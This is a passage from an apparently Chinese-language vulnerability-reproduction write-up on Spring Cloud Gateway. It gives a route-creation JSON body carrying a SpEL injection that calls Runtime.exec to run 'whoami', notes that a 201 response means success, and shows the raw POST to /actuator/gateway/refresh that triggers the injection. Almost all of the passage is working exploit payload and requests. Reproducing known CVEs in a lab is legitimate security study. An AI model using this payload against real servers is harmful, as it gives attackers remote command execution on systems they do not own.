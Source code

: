 ```
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

```
显示201表示创建成功。
```

![image-20241127134159548](CVE漏洞复现/image-20241127134159548.png)	

```
第二步刷新路由
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Content-Length: 3
Content-Type: application/x-www-form-urlencoded
Origin: null
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0

a=1
```
